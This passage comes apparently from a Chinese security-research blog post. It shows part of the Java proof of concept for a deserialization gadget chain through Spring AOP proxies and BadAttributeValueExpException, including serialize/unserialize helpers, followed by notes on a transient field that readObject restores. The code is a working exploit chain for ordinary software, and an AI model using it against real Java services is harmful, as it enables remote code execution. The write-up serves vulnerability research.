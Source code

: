 ```java
        Object proxyInstance = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Advised.class}, (InvocationHandler) jdkDynamicAopProxyClassConstructor.newInstance(advisedSupport));
//        proxyInstance.toString();

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, proxyInstance);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```

需要注意的是 aspectJAdviceMethod被transient修饰

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250603172724196.png)

而在AbstractAspectJAdvice.readObject还原了aspectJAdviceMethod

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250603172826323.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250604112526074.png)



如果给链子，自己写代码的话，逻辑还挺难的，调了一天多，弹计算器也是成就满满呢。

